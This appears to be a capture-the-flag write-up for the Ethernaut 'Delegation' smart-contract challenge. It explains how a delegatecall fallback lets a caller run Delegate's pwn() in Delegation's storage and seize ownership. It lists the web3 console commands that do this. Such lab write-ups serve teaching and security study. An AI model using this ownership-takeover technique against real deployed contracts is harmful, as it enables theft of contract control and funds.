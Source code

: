 Two contracts. Both store owner address in storage of the contract.

Contract ```Delegation{}``` uses ```delegatecall(msg.data)``` which calls Contract ```Delegate{}``` with its own storage. 

```Delegate{}``` has function ```pwn()``` which changes owner to ```msg.sender```.

I create a transaction to trigger ```Delegation{}``` fallback, with ```msg.data``` containing a call to pwn(). 
Since the call is via the ```Delegation{}``` contract and storage, it will gain us access to ownership of ```Delegation{}```.

Check current ownership. 
```await contract.owner()```

Get the hash of ```pwn()``` function.
```let pwnHash = web3.utils.sha3("pwn()");```

Invoke the fallback function with msg data of the pwn hash.
```contract.sendTransaction({data: pwnHash})```

Check new ownership.
```await contract.owner()```

should be the same as my address found under ```player``` variable.